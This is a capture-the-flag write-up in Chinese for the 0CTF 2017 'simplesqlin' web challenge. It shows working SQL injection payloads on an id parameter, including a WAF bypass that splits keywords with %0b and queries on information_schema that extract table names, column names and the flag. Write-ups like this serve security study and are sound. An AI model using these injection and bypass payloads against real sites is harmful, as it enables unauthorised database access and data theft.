

# 0CTF QUALS 2017 : simplesqlin

**category** : web
**points** : 34

## writeup

網址 : http://202.120.7.203/ ( 可能不給連了 )

index page 有全部文章的連結

article page 是 index.php 傳 id parameter 進去資料庫抓東西出來顯示

所以很明顯的就是 sql injection id 這個欄位

Blind injection 成功

`id=1 AND 1=1 #`

`id=1 AND 1=2 #`

UNION SELECT 失敗(被 WAF 擋掉了)

`id=1 UNION SELECT database() #`

要怎麼 bypass 討厭的 WAF 呢 ( 我比賽的時候到這邊就不行了O_O )

看了別人的 writeup ( https://rawsec.ml/en/0CTF-2017-write-ups/#simplesqlin-web and http://piratefache.ch/0ctf-2017-simplesqlin )

發現可以用 %0b ( Verticle TAB ) 這種在 ASCII 表裡面沒有實際輸出的東西插到字裡面

`id=0 UN%0bION SEL%0bECT null,null,database() #`

就會得到 `news` 就是我們目前 database 的名字

上面那行有兩個重點 ( 除了 %0b 上面講了 )

第一，注意 id=0 因為 id=1 的話他會真的抓到文章你 UNION SELECT 到的東東就不會顯示出來了

第二，注意 null,null,database() 有兩個 null 那是用來做 padding 的，因為 UNION SELECT 必需和前面的 SELECT 欄位格數一致

不知道要塞幾個 null 可以用試的

最後只要一步一步根據 schema -> table -> column 就可以找到了

`id=0 UN%0bION SEL%0bECT null,null,table_name FR%0bOM information_schema.tables WHE%0bRE table_schema = 'news' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,column_name FR%0bOM information_schema.columns WHE%0bRE table_schema = 'news' AND table_name = 'flag' #`

得到 flag

`id=0 UN%0bION SEL%0bECT null,null,flag FR%0bOM flag`

flag{W4f_bY_paSS_f0R_CI}

看別人的 writeups 還發現可以用 GROUP_CONCAT 去一次挖出一堆東東

比如說一次挖出所有 tables

`id=0 UN%0bION SE%0bLECT null,null,GROUP_CONCAT(table_name) FR%0bOM information_schema.tables #`

CHARACTER_SETS,...,flag,news ( 太多了...省略部分 )

## other write-ups and resources

* https://rawsec.ml/en/0CTF-2017-write-ups/#simplesqlin-web
